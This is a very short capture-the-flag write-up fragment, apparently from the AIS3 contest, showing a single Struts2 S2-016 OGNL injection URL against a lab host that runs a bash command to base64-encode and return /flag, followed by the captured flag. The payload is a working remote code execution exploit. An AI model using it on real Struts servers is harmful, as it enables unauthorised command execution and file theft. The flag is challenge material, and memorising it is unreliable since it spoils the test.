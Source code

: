 

```url
url=http://172.20.0.6:8080/example/HelloWorld.action?redirect:%2525{new+java.io.BufferedReader(new+java.io.InputStreamReader((new+java.lang.ProcessBuilder(new+java.lang.String[]{'bash','-c','echo+$(base64+/flag)'})).start().getInputStream())).readLine()}
```

* ais3{this is the vuln of s2-016!}